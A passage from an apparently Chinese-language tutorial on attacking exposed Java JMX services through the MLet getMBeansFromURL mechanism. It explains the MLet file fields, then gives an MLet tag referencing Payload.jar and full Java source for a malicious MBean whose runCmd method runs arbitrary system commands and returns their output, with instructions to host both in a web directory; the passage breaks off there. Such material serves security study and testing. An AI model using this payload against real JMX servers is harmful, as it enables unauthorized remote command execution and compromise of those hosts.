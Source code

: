 但是getMBeansFromURL去哪里加载MBean，加载哪一个MBean需要我们用一个MLet文件定义

下面我们简单看下几个必须字段的含义。

CODE = class

此属性指定了要获取的 MBean 的Java 类的全名，包括包名称。

ARCHIVE = " archiveList "

此属性是必需的，它指定了一个或多个 .jar 文件，这些文件包含要获取的MBean 使用的 MBean 或其他资源。

NAME = mbeanname

当 m-let 已注册MBean 实例时，此可选属性指定了要分配给MBean 实例的对象名称。如果mbeanname 以冒号字符(:) 开始，则对象名称的域部分是 MBean 服务器的默认域，可由 MBeanServer.getDefaultDomain()返回

## 恶意MBean加载

mlet文件

```
<MLET CODE=Payload ARCHIVE=Payload.jar NAME=:NAME=Payload></MLET>
```

payload

```
package MBean;

import java.io.BufferedReader;
import java.io.IOException;
import java.io.InputStreamReader;

public class Payload implements PayloadMBean {
    public String runCmd(String cmd) throws IOException, InterruptedException {
        Runtime runtime = Runtime.getRuntime();
        Process process = runtime.exec(cmd);
        BufferedReader stdInput = new BufferedReader(new InputStreamReader(process.getInputStream()));
        BufferedReader stdError = new BufferedReader(new InputStreamReader(process.getErrorStream()));
        String stdout_data = "";
        String strtmp;
        while ((strtmp = stdInput.readLine()) != null) {
            stdout_data += strtmp + "\n";
        }
        while ((strtmp = stdError.readLine()) != null) {
            stdout_data += strtmp + "\n";
        }
        process.waitFor();
        return stdout_data;
    }
}
```

将Payload.java和PayloadMBean.java编译成jar包和mlet文件放在一个web目录下

